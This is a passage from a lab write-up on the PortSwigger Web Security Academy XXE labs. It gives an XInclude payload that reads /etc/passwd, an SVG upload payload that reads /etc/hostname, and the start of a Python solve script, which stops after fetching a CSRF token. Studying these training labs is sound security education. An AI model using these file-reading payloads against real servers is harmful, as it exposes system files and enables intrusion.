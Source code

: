 ```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Set the above as the `productId` parameter to solve the lab.

## Lab 8: XXE via Image File Upload

This lab uses the Apache Batik library to process image files. Read `/etc/hostname` to solve lab. The hint is the the SVG image format uses XML.

Here's the payload from PayloadAllTheThings:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Using the above payload, save it as a `.svg` file, and then upload it.

![](../../.gitbook/assets/portswigger-xxe-writeup-image-6.png)

Upon viewing the image, I can see the result:

![](../../.gitbook/assets/portswigger-xxe-writeup-image-7.png)

As usual, here's the script for uploading the image and solving the lab:

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a99005b040cf58d8003f33300ac00be'
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()

r = s.get(url + '/post?postId=5', proxies=proxies, verify=False)
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
csrf_token = match[1]

```